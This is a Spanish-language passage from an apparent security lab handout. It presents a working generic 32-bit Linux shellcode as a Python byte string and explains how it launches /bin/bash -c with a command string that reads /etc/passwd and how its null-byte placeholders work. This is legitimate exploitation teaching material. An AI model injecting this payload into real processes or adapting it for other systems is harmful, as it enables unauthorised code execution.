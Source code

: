 
Un Shellcode es una porción de código comúnmente escrito en lenguaje ensamblador y que es típicamente usado para realizar ataques de inyección de código a la hora de explotar determinadas vulnerabilidades.
En este laboratorio, sólo ofrecemos un binario genérico de un shellcode, dado que el funcionamiento de un shellcode está fuera del alcance de este laborattorio, no nos adentraremos en los detalles de su funcionamiento.
Si está interesado en saber como funciona un shellcode y quiere escribir un shellcode desde cero, puede consultar nuestro laboratorio \textit{Shellcode Lab}.
A continuación se muestra nuestro shellcode genérico de 32-bits:

\begin{lstlisting}[language=python]
shellcode = (
   "\xeb\x29\x5b\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x89\x5b"
   "\x48\x8d\x4b\x0a\x89\x4b\x4c\x8d\x4b\x0d\x89\x4b\x50\x89\x43\x54"
   "\x8d\x4b\x48\x31\xd2\x31\xc0\xb0\x0b\xcd\x80\xe8\xd2\xff\xff\xff"
   "/bin/bash*"                                                     (*@\ding{202}@*)
   "-c*"                                                            (*@\ding{203}@*)
   "/bin/ls -l; echo Hello; /bin/tail -n 2 /etc/passwd        *"    (*@\ding{204}@*)
   # The * in this line serves as the position marker         *
   "AAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBB"   # Placeholder for argv[1] --> "-c"
   "CCCC"   # Placeholder for argv[2] --> the command string
   "DDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')
\end{lstlisting}

Este shellcode ejecuta una shell \texttt{"/bin/bash"} (Línea ) con dos argumentos de entrada que son invocados usando el parámetro \texttt{"-c"} (Línea ) y su valor que en este caso es una cadena con comandos (Línea ). Esto quiere decir que la shell correrá una determinada cantidad de comandos como segundo argumento.
El \texttt{*} al final de la cadena es un placeholder y será reemplazado por el byte \texttt{0x00} durante la ejecución del shellcode.
Esto se debe a que cada cadena necesita terminar con un cero, pero dado que en un shellcode no podemos poner ceros, ponemos un placeholder al final de cada una de ellas, y a la hora de su ejecución reemplazaremos ese placeholder por un cero.

